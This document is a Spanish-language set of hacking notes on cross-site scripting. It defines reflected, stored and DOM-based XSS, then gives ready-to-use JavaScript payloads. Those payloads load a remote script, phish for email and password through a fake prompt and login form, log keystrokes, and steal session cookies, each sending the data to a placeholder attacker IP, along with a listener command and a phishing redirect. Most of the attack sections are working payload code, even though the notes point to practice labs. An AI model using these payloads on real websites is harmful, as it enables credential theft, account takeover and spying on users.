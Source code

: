 # XSS (Cross-Site Scripting)

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #XSS

***

## Definición

> Es un tipo de \[\[Vulnerabilidades web]] que permite a un atacante inyectar en la página código **JavaScript** o un lenguaje similar. Estos scripts pueden ser ejecutados en el navegador de la víctima, permitiendo al atacante robar información, tomar control de cuentas o realizar actividades perjudiciales en el contexto del usuario afectado.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

* **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
* **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
* **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

## Detección de vulnerabilidad

Para detectar si una página web es vulnerable a **XSS**, necesitamos ver en algún lado de la página web algo que hayamos publicado, por ejemplo, si es una página web con la posibilidad de subida de posts, dichos post quedarán mostrados en la página.

Si ocurre lo mencionado, podemos hacer uso de **etiquetas html** (h1,h2,marquee...), para comprobar si es vulnerable a **HTML Injection**, y si es así, podríamos intentar un pequeño script escrito en **JavaScript** para terminar de confirmar la vulnerabilidad, por ejemplo:

```JavaScript
<script> alert("ALERTA"); </script>
```

de manera que si la página web es vulnerable, saltará una ventana emergente mostrando "**ALERTA**".

Todos los scripts que vamos a utilizar de ahora en adelante, no tienen porque estar localmente en la máquina víctima, sino que podemos hacer uso del siguiente comando para ejecutar un script de manera remota (no haría falta que el script incluya las etiquetas de script):

```JavaScript
<script src="http://<IP_ATACANTE>/test.js"></script>
```

## XXS + ingeniería social

Si una página es vulnerable a **XSS**, podemos emplear uso de **ingeniería social** para recopilar información que envíen los usuarios que caigan en nuestra trampa. Podemos hacer uso del siguiente script, que **solicita al usuario su correo** para poder acceder en este caso a un post:

```JavaScript
<script>
	var email = prompt("Por favor, introduce tu correo para visualizar este post", "example@example.com");
	
	if (email == null || email == ""){
		alert("Es necesario introducir un correo válido para poder visualizar el post");
	}
	else{
		fetch("http://<IP_ATACANTE>/?email=" + email);
	}
</script>

```

Pero claro, ya que estamos, podemos solicitar además del **correo**, la **contraseña** del usuario, de manera que si introduce los datos solicitados, tendríamos acceso a su cuenta:

```JavaScript
<div id="formContainer"></div>

<script>
 var email;
 var password;
 var form = '<form>' +
  'Email: <input type="email" id="email" required>' +
  ' Contraseña: <input type="password" id="password" required>' +
  '<input type="button" onclick="submitForm()" value="Submit">' +
  '</form>';

 document.getElementById("formContainer").innerHTML = form;
 
 function submitForm() {
  email = document.getElementById("email").value;
  password = document.getElementById("password").value;
  fetch("http:/<IP_ATACANTE>/?email=" + email + "&password=" + password);
 }
</script>

```

En ambos casos, debemos abrir previamente un servidor http para que nos lleguen los mensajes enviados:

```bash
python3 -m http.server 80 
```

A parte de esto, podemos realizar un **redirigimiento** para que el infectado visite otra página web, que podíamos tener previamente preparada para realizar un ataque de \[\[Phishing]], o a cualquier otro sitio de interés:

```JavaScript
window.location.href = "<URL>";
```

Aún así, este tipos de ataques depende de nuestra capacidad con \[\[Ingeniería social]], y la incredulidad del usuario que visite nuestra parte de la web infectada.

## XSS Keylogger

Un keylogger, es una especie de malware que envía al atacante las teclas que ha pulsado el infectado. Para ello podemos hacer uso del siguiente script en **JavaScript** suponiendo que es vulnerable a **XSS**:

```JavaScript
<script>
	var k = "";
	document.onkeypress = function(e){
		e = e || window.event;
		k += e.key;
		var i = new Image();
		i.src = "http://<IP_ATACANTE>/" + k;
	};
</script>
```

También es necesario tener un servidor abierto, y además podemos filtrar para que solo nos muestre la información que queramos de la siguiene manera:

```bash
python3 -m http.server 80 | grep -oP 'GET /\K[^.*\s]+'
```

## XSS \[\[Cookie Hijacking]]

Si no está habilitado el campo de **HTTPOnly** en la cookie de sesión de un usuario, podemos hacer uso del siguiente script para intentar capturar dicha cookie y enviarla al atacante:

```JavaScript
<script> 
var request = new XMLHttpRequest(); 
request.open('GET', 'http://<IP_ATACANTE>/?cookie=' + document.cookie); 
request.send(); 
</script>
```

Una vez obtenida la cookie, podemos **introducirnos en la sesión** de dicho usuario, y actuar como si fuéramos el mismo.

## Ejemplos prácticos

[Gossip World](https://github.com/globocom/secDevLabs) [Máquina de vulnhub](https://www.vulnhub.com/entry/myexpense-1,405/)
